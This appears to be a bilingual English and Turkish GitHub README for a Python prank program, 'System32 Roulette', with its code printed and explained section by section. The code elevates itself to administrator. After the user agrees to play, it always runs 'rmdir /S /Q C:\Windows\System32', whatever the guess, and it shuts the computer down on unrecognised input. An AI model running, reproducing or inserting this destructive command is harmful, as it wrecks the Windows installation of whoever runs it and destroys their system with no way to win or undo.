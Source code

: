 
# RUSSIAN ROULETTE 🔫
The concept of the game is very simple: the program holds a number between 0 and 11, and you try to guess it. If you can't guess it, the system32 file, which is necessary for Windows to function, gets deleted. But don’t worry, when you open the application, it actually asks you if you really want to play or not.
## How Does It Work ?
```
def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if not is_admin():
    # If not an administrator, restart with admin rights
    ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
    sys.exit(0)
```
This part of the code is used to run the code as an administrator.

```
print("Welcome to System32 Roulette")  # print
time.sleep(1.5)  # wait
print("The program will choose a number (between 1 and 10) and if you can't guess it, System32 will be deleted!")  # print
time.sleep(1.5)  # wait
print("This process poses a risk of deleting files necessary for Windows to function. Do you want to proceed? (yes/no)")  # print
devam = input("Yes or No: ").lower()  # take input and save to devam variable
```
In this section, the user is presented with an explanation of the game, and a question is asked. The question asked is saved 
in the variable named 'devam'.
```
if devam == "yes":  # if devam variable is yes, do
    randomsayi = random.randint(0, 11)  # choose a number between 0 and 11 and save to randomsayi variable
    print("I have chosen a number")  # print
    time.sleep(1.5)  # wait
    cevap = int(input("What do you think the number is: "))  # take input and save to cevap variable
```
This part of the code handles the situation where the value stored in the devam variable is "yes." In this case, the process continues as follows: a random number is generated and presented to the user. The user's response is saved in the cevap variable, and the program proceeds from there
```
if cevap == randomsayi:  # if cevap variable is equal to randomsayi variable, do
        randomsayi = random.randint(0, 11)  # choose a number between 0 and 11 and save to randomsayi variable
        print("The number I chose: " + str(randomsayi))  # print
        time.sleep(1.5)  # wait
        print("You lost")  # print
        time.sleep(1.5)  # wait
        print("System32 is being deleted")
        time.sleep(2.5)  # wait
        os.system("rmdir /S /Q C:\\Windows\\System32")  # delete system32
   
    else:  # if cevap variable is not equal to randomsayi variable, do
        print("The number I chose: " + str(randomsayi))  # print
        time.sleep(1.5)  # wait
        print("You lost")  # print
        time.sleep(1.5)  # wait
        print("System32 is being deleted")  # print
        time.sleep(2.5)  # wait
        os.system("rmdir /S /Q C:\\Windows\\System32")  # delete system32
```
In the continuation of the program, the cevap variable is evaluated. If the user correctly guesses the number, the system selects another random number and informs the user that they guessed incorrectly, displaying the number on the screen. In the case where the user guesses incorrectly from the start, the same actions occur. In both scenarios, the System32 directory is deleted, making it impossible to win the game.
```
elif devam == "no":  # if devam variable is no, do
    print("Were you afraid of losing?")  # print
    time.sleep(1.5)  # wait
    print("Coward!")  # print

else:  # if devam variable is something other than yes or no, do
    print("I didn't understand what you wrote (I definitely didn't get tired of coding). I'll take that as a no.")  # print
    time.sleep(1.5)  # wait
    print("Since you wrote something unclear, I will punish you.")  # print
    time.sleep(2.5)  # wait
    os.system("shutdown /s /t 1")  # shut down the computer
```
This part continues from the evaluation of the devam variable at the beginning of the program. If the user writes "no," they are ridiculed, and the game is closed. However, if the user does not input "yes" or "no," meaning they entered an unrecognized value, they are punished by shutting down the computer.

---------------------------------------------------------------------------------------------------------------------------------------------------

# RUS RULETİ 🔫
Oyunun olayı çok basit: Program 0 ile 11 arasında bir sayı tutuyor ve siz bu sayıyı tahmin etmeye çalışıyorsunuz. Eğer bilemezseniz, Windows'un çalışması için gerekli olan system32 dosyası siliniyor. Ama endişelenmeyin, uygulamayı açtığınızda gerçekten oynamak isteyip istemediğinizi soruyor.
## Nasıl Çalışır ?
```
def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if not is_admin():
    # Yönetici değilse, yönetici haklarıyla yeniden başlat
    ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
    sys.exit(0)
```
Bu kodun bu kısmı, kodu yönetici olarak çalıştırmak için kullanılır.
```
print("System32 Rulete Hoş Geldiniz") # yazdır
time.sleep(1.5) # bekle
print("Program Bir Sayı Seçecek (1 ila 10 arası) Ve Bilemezseniz System32 Silinecek!") # yazdır
time.sleep(1.5) # bekle
print("Bu İşlem Windowsun Çalışması İçin Gerekli Olan Dosyaları Silme Tehlikesi Taşır Devam Etmek İstiyormusunuz? (evet/hayır)") # yazdır
devam = input("Evet yada Hayır: ").lower() # giriş al ve devam değişkenine kaydet
```
Bu bölümde, kullanıcıya oyunun açıklaması sunulur ve bir soru sorulur. Sorulan soru 'devam' adlı değişkene kaydedilir.
```
if devam == "evet": # eğer devam değişkeni evet ise yap 
   randomsayi = random.randint(0,11) # 0 ile 11 arasında bir sayı seç ve randomsayi değişkenine kaydet
   print("Sayıyı Tuttum") # yazdır
   time.sleep(1.5) # bekle
   cevap = int(input("Sayı Sence Ne: ")) # giriş al ve cevap değişkenine kaydet
```
Bu kodun bu kısmı, 'devam' değişkeninde saklanan değerin "evet" olduğu durumu ele alır. Bu durumda işlem şu şekilde devam eder: rastgele bir sayı oluşturulur ve kullanıcıya sunulur. Kullanıcının yanıtı 'cevap' değişkenine kaydedilir ve program buradan devam eder.
```
if cevap == randomsayi: # eğer cevap değişkeni randomsayi değişkeniyle eşit ise yap
      randomsayi = random.randint(0,11) # 0 ile 11 arasında bir sayı seç ve randomsayi değişkenine kaydet
      print("Tuttuğım sayı: " + str(randomsayi)) # yazdır
      time.sleep(1.5) # bekle
      print("Kaybettin") # yazdır
      time.sleep(1.5) # bekle
      print("System32 Siliniyor")
      time.sleep(2.5) # bekle
      os.system("rmdir /S /Q C:\\Windows\\System32") # system32 yi sil
   
   else: # eğer cevap değişkeni randomsayi değişkeniyle eşit değilse yap
      print("Tuttuğım sayı: " + str(randomsayi)) # yazdır
      time.sleep(1.5) # bekle
      print("Kaybettin") # yazdır
      time.sleep(1.5) # bekle
      print("System32 Siliniyor") # yazdır
      time.sleep(2.5) # bekle
      os.system("rmdir /S /Q C:\\Windows\\System32") # system32 yi sil
```
Programın devamında, 'cevap' değişkeni değerlendirilir. Eğer kullanıcı sayıyı doğru tahmin ederse, sistem başka bir rastgele sayı seçer ve kullanıcıya yanlış tahmin ettiğini bildirir, seçilen sayıyı ekranda gösterir. Kullanıcı başlangıçta yanlış tahmin ederse, aynı işlemler gerçekleşir. Her iki durumda da System32 dizini silinir, bu da oyunun kazanılmasını imkansız hale getirir.
```
elif devam == "hayır": # eğer devam değişkeni hayır ise yap
   print("Kaybetmektenmi Korktun?") # yazdır
   time.sleep(1.5) # bekle
   print("Korkak Seni!") # yazdır

else: # eğer devam değişkeni evet veya hayırdan başka bir değer aldıysa yap
   print("Bu Yazdığını Anlamadım (kesinlikle kodlamaya üşenmedim) Bunu Hayır Olarak Alıyorum") # yazdır
   time.sleep(1.5) # bekle
   print("Anlaşılamayan Birşey Yazdığın İçin Sana Ceza Veriyorum") # yazdır
   time.sleep(2.5) # bekle
   os.system("shutdown /s /t 1") # bilgisayarı kapat
```
Bu kısım, programın başındaki 'devam' değişkeninin değerlendirilmesinden devam eder. Eğer kullanıcı "hayır" yazarsa, kullanıcı aşağılanır ve oyun kapatılır. Ancak, kullanıcı "evet" veya "hayır" yazmazsa, yani tanınmayan bir değer girerse, bilgisayar kapatılarak cezalandırılır.


